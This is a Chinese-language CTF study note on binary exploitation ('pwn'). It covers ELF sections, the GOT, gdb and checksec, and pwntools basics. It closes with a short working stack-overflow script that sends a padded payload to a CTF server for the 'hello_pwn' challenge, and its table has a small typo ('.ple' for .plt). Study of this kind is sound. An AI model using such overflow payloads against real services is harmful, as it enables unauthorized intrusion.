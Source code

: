 ```yaml
---
title: PWN
date: 2025-02-07 00:05:38
tags:
  - CTF笔记
  - PWN
---
```


# PWN

## ELF 文件

ELF 文件中包含多个节 section.

| 名称             | 作用                   |
| ---------------- | ---------------------- |
| `.text`          | 代码                   |
| `.rdata`         | 字符串，不可修改的数据 |
| `.data`          | 已经初始化的可修改数据 |
| `.bss`           | 未被初始化的可修改数据 |
| `.ple` 与 `.got` | 动态链接函数地址       |
|                  |                        |

![1](https://ff-0xff.github.io/2020/04/14/GOT%E8%A1%A8/1.png)

> [GOT表介绍的博客](https://ff-0xff.github.io/2020/04/14/GOT%E8%A1%A8/)

``` shell
gdb a.out
start
vmmap
```

用 vmmap 可以看到内存的表

可以看到内存里有 `libc.so` 这个库

libc 直接运行可以显示出版本

``` shell
./libc-2.23.so
```



## 工具

### Pwntool

#### 返回可交互的界面

``` python
from pwn import *
io = remote('ip',port)
io.interactive()
```

#### checksec 查看文件信息

``` shell
checksec get_shell
```

会显示 

* Arch, 架构
* Stack: No canary 说明没有栈canary
* NX 防护. 如果 NX Enabled 说明堆栈不可执行

### Stack Overflow 栈溢出

栈溢出是向高地址溢出

> 攻防世界 hello_pwn

``` python
from pwn import *
io = remote("61.147.171.105", 53481)
io.sendline(b"a"*4 + p64(0x6E756161))
io.interactive()
```


